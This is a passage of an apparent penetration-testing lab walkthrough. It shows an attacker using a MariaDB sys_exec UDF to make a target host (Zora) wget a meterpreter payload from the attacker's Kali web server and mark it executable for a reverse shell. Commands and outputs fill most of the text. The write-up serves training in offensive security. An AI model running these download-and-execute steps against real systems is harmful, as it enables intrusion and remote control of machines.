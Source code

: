 -   To do this, we will start the python http.server on port 80 and make a sys\_exec UDF call to our Kali IP on port 80.

```bash
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 ...
```
- Now that the web server has started, we can make the sys\_exec UDF call. 

- The syntax for the function can be found in the original UDF exploit.

```bash
MariaDB [(none)]> select sys_exec('wget http://10.11.0.4');
+-----------------------------------+
| sys_exec('wget http://10.11.0.4') |
+-----------------------------------+
| 256 |
+-----------------------------------+
1 row in set (0.230 sec)
```

- If the command worked, we should see a log entry in our webserver.

```bash
Serving HTTP on 0.0.0.0 port 80 ...
10.11.1.250 - - [10/Dec/2019 17:49:05] "GET / HTTP/1.1" 200 -
```
- Now we can upload and execute a meterpreter payload on Zora in order to send a reverse shell back to our Kali instance. 

- We don’t have to generate a new meterpreter shell since we can just use the same one we used for Ajla. 

- Since we are now connected to Ajla through a standard ssh connection, we can use port 443 on Kali for the Zora meterpreter session.

-   First, let’s instruct Zora to download the binary payload.

```bash
   

MariaDB \[(none)\]> select sys\_exec('wget http://10.11.0.4/shell.elf');  
+---------------------------------------------+  
| sys\_exec('wget http://10.11.0.4/shell.elf') |  
+---------------------------------------------+  
| 0 |  
+---------------------------------------------+  
1 row in set (0.260 sec)
```
- With the meterpreter downloaded, we need to make the file executable.
```bash
   

MariaDB \[(none)\]> select sys\_exec('chmod +x ./shell.elf');  
+----------------------------------+  
| sys\_exec('chmod +x ./shell.elf') |  
+----------------------------------+  
| 0 |  
+----------------------------------+  
1 row in set (0.074 sec)
```
